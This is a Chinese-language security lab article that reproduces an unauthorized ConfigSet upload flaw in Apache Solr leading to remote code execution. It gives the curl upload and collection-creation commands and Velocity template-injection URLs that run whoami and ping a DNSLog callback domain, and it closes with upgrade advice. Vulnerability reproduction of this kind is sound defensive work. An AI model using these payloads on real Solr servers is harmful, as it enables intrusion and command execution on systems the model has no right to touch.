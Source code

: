 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/aw3rhAAPn1sCSZsEXVqZBA)

  

  

  

网安引领时代，弥天点亮未来   

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x00 漏洞****简述**  

  

Apache Solr 是一个独立的企业级搜索应用服务器，在 ConfigSet+API + 中存在未授权上传漏洞风险，被利用可能导致 RCE。
========================================================================

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x01 影响版本**

  

  

Apache+Solr+6.6.0+-6.6.5+

Apache+Solr+7.0.0+-7.7.3

Apache+Solr+8.0.0+-8.6.2

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x02 漏洞复现**

  

  

1、环境搭建

本次漏洞测试环境版本 solr-7.0.1，window 10 部署

Apache Solr 下载链接

```
http://archive.apache.org/dist/lucene/solr/7.0.1
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjzibnRw7p4LQCSADGtY5y1WZByAJdzgpED3cpc8FejeHp0E6Q1dRtvjQ/640?wx_fmt=png)

2、进入相关目录 solr-7.0.1\\bin，启动 solr

```
solr.cmd start -c
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjkicMlWL3s6eKvcqK17cS9MpOqzCJClkZJ2IZIQGhibx0QsianTLlLFB1w/640?wx_fmt=jpeg)

3、访问漏洞环境

http://192.168.60.1:8983

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjtI4ToDLN7fHicgRUib0r4LxUBoaRtOXzkTGf5kzRcqYWP5UJiaB5e4VLw/640?wx_fmt=png)

4、漏洞利用

1\. 进入

```
server/solr/configsets/sample\_techproducts\_configs/conf
```

目录修改 solrconfig.xml 配置文件  

原配置内容：

```
<queryResponseWriter >
<str >${velocity.template.base.dir:}</str>
</queryResponseWriter>
```

修改后配置内容：

```
<queryResponseWriter >
<str >${velocity.template.base.dir:}</str>
<str >${velocity.solr.resource.loader.enabled:true}</str>
<str >${velocity.params.resource.loader.enabled:true}</str>
</queryResponseWriter>
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjGw5AVvtcbUNV2CPU5bcQWaUOice9fUKEqQ3O9Wzo1QRnrGnDtQLOodw/640?wx_fmt=png)

2\. 执行

```
zip -r - \* > yunzui.zip
```

**注意：这里需要 Linux 进行加载（Windows10 下可安装 Linux 子系统并安装 zip），且第一次占用空间很大！！！**

**apt-get install zip unzip  (root 权限)**

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjKfFMghaUQdDXrxXMicqYejeGy7fUKXzF7ic6AnGkSU19GmrbYKIG7icTQ/640?wx_fmt=png)

3\. 然后把 zip 通过命令行上传

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @yunzui.zip "http://192.168.60.1:8983/solr/admin/configs?action=UPLOAD&
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPj4eKO2hrRMsIUAzANCeIwSkicIqPfY8RrQPC5KgXjBtyibIeN2C70JhEg/640?wx_fmt=png)

4\. 创建一个新的配置

```
curl "http://192.168.60.1:8983/solr/admin/collections?action=CREATE&
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjCEdfzdHBKpvLJRGXGfqAN87rMHSx0TxjstXicQvsqkPDrcp5l1aqE6Q/640?wx_fmt=png)

5\. 测试命令执行

```
http://192.168.60.1:8983/solr/yunzui2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+\[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPj4jSnoatQria8vicX6F8kBXcVL5ibp4WmUUjPcNaaXCgyLLr6kvy6uU1icg/640?wx_fmt=jpeg)

通过 DNSLog 平台生成域名：

se5e2u.dnslog.cn

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjn8r8v8cmaGeOXbWuBS97gPwbVmAb05YMafEPu8UVpwgicjIgwAbkGoQ/640?wx_fmt=png)

执行命令  

```
http://192.168.60.1:8983/solr/yunzui2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=#set($x='')+#set($rt=$x.class.forName('java.lang.Runtime'))+#set($chr=$x.class.forName('java.lang.Character'))+#set($str=$x.class.forName('java.lang.String'))+#set($ex=$rt.getRuntime().exec('ping se5e2u.dnslog.cn'))+$ex.waitFor()+#set($out=$ex.getInputStream())+#foreach($i+in+\[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))#end
```

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjFFgWEHh4W05u4YWhVw3ib9Xic43DicHhMwx9sNHoKn6GDOcPtyibosXMEA/640?wx_fmt=png)  

效果查看

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDqhj4iaHAotWbjLQl8t0zPjppSes6GQXO3bXUvwoPELoyuuKXe9plgKFC7KoXmAciawY5DnicIpa9kg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x03 修复建议**

  

  

升级 Solr 版本。

http://archive.apache.org/dist/lucene/solr/8.6.3/

![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png)

  

**0x04 参考链接**

  

  

https://blog.csdn.net/qq\_40989258/article/details/109121350

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif) 

知识分享完了

喜欢别忘了关注我们哦~  

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  

![](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=jpeg)